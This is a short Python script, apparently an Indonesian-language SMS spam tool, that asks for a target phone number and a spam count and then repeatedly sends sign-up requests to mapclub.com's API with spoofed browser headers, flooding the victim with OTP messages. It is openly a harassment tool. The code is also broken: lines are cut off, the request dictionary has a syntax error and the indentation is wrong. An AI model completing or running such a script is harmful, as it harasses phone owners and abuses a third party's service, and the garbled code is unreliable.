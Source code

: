 import json
import requests
import sys
import os

def main():
        os.system('clear')
        os.system('figlet ini kakang')
        banner='''                                              

        [+]AUTHOR :kakang rusrus
        [+]Instagram : terlanjurngantuk
        '''

        print(banner)
        no = input('target : ')
        jum = input('jumlah spam : ')                           
        head = {                                                        "User-Agent": "Mozilla/5.0 (Linux; Android 10; SM-A107F>
        "Referer": "https://www.mapclub.com/en/user/signup",
        "Host": "cmsapi.mapclub.com",
        }


        dat = {
        'phone' = no
                                                                        for x in range(int(jum)):
                leosureo = requests.post("https://cmsapi.mapclu>
        if 'eror' in leosureo:
                print('gagal mengirim' + no)
        else:
                print('succses mengirim' + no)



main()
